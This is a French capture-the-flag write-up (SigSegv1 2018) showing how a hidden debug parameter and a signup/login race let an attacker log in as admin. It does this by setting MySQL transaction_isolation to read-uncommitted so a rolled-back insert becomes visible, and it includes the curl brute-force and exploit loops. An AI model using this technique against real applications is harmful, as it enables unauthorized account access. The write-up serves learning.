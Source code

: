 #  SigSegv1 CTF 2018

**Category:** Misc/Web |
**Points:** 500 |
**Solves:** 1 |
**Description:**

> LOL mon pote dit qu'il peut se connecter en tant qu'admin sur mon app.
> Je le crois pas, mais avant d'accepter son challenge, est-ce que tu peux vérifier que c'est bon stp ?

___

## TL;DR


The game. Si t'as pas le temps de lire, reviens demain.

## WRITE-UP

* __Première étape__ : découvrir le chall.

Tout d'abord, on voit que le "site" possède seulement 2 pages:
- Une page de création de compte (`/signUp`)
- Une page de login (`/signIn`)

Premier test que j'ai fait, essayer de créer un compte :

```
>>> curl -s http://localhost:8000/signUp -d 'inputName=admin&inputPassword=perte'
{"error": "(u'User creation has been disabled, changes have been canceled.',)"}
```

Well, la création d'utilisateur a été désactivée.
On se dit que le but, ça va être de faire en sorte de pouvoir créer l'utilisateur qu'on veut.


* __Deuxième étape__ : allumer son cerveau

En regardant un peu les deux pages, je vois des commentaires :

```
<!--
30/11/18 - added a stored procedure to add users

BEGIN
    IF (select exists (select 1 from tbl_user where login = p_login)) THEN
        select 'Username exists!';
    ELSE
        START TRANSACTION;
        insert into tbl_user
        (
            login,
            password
        )
        values
        (
            p_login,
            p_password
        );
    END IF;
END$$
DELIMITER ;

--------------------------------------------------------------------------------

01/12/18 - my friend told me not to store passwords as plaintext...
Removed everything from the database and disabled persistence of changes in db until I fix this.
-->


******************


<!--

30/11/18 - added secret form parameters debugVar and debugVal to help debug the app.

-->
```

Ici, il y a 2 choses importantes : 
- les 2 paramètres que l'on peut rajouter.
- le fait que l'admin a désactivé la persistance.

Le message est clair, il semblerait qu'il y ait un rollback qui soit fait.

En ayant ces informations, j'ai testé de faire une race condition en créant l'utilisateur `admin`,
puis me connecter directement juste après, avant que le rollback soit fait.
Mais dans ce cas, non seulement je ne me servais pas des paramètres donnés en commentaire, et puis
surtout ... ça ne fonctionnait pas :)




* __Troisième étape__ : utilisation des params + bruteforce

Ce step est assez simple.
J'ai récupéré une bonne partie des variables systèmes de MySQL : 
```
>>> curl -s 'https://dev.mysql.com/doc/refman/5.7/en/server-system-variables.html'| awk -F'[<>]' '/server-system.*class="literal/{!arr[$5]++}END{for (k in arr){print k}}' >> all_mysql_sysvar.lst
```

Ca fait une petite liste de presque 300 vars.
```
>>> curl -s http://localhost:8000/signIn -d 'inputName=admin&inputPassword=lel&debugVar=connect_timeout&debugVal=lel'
{"html": "<span>Forbidden variable name!</span>"}
```

Petite surprise, certaines sont interdites : j'ai donc "bruteforcé" pour connaître les vars autorisées.

```
>>> while read VAR; do curl -s http://localhost:8000/signIn -d "inputName=admin&inputPassword=lel&debugVar=$VAR&debugVal=lel" |grep -q Forbidden || echo $VAR ; done < all_mysql_sysvar.lst >> allowed_mysql_vars.lst
>>> wc -l allowed_mysql_vars.lst 
122 allowed_mysql_vars.lst
```

Bien, je me retrouve avec 122 variables à RTFM...
Avec l'idée du challenge, le `rollback`, ça permet de s'orienter vers certaines variables.


* __Dernière étape__ : payload + flag

Je vous invite à lire les liens suivants :
```
https://en.wikipedia.org/wiki/Isolation_(database_systems)
https://dev.mysql.com/doc/refman/5.7/en/server-system-variables.html#sysvar_transaction_isolation
https://inshallhack.org/production_debugging_sigsegv1_2018/
```

Le post de Siben sur inshallhack est génial, avec schématisation (wikipedia ¢) des dirty reads.

Après avoir bien RTFM, il ne reste plus qu'à créer le payload.
Ce qu'il faut faire :
- Créer un user admin/admin,
- Instantanément, il faut directement faire lire à la DB les changements non commités : `transaction_isolation -> read-uncommitted`,
- Et on essaye de se connecter ensuite.

En BASH, ça donne simplement ça :

```
>>> while true ; do curl -s 'http://localhost:8000/signUp' --data 'inputName=admin&inputPassword=admin' & \
> curl -s 'http://localhost:8000/signIn' --data 'inputName=admin&inputPassword=admin&debugVar=transaction_isolation&debugVal=read-uncommitted' & \
> curl -s 'http://localhost:8000/signUp' --data 'inputName=admin&inputPassword=admin' ; done
```

Il suffit d'attendre un peu :

`{"gg": "GG! Flag: sigsegv{1s0l4t10n_mY_455}!"}`

* __Conclusion__ :

Un superbe challenge !
Personellement, j'avais jamais trop travaillé sur MySQL de façon approfondie, et j'ai appris
énormément de choses sur le fonctionnement d'une DB (MySQL).
Merci à toi SIben pour l'idée du challenge, de m'avoir fait confiance en me le faisant tester en
"avant-première", avant qu'il soit push sur le SigSev1 CTF.
Et surtout : the game.

Enjoy,<br>
\- [Notfound](https://twitter.com/Notfound404__)
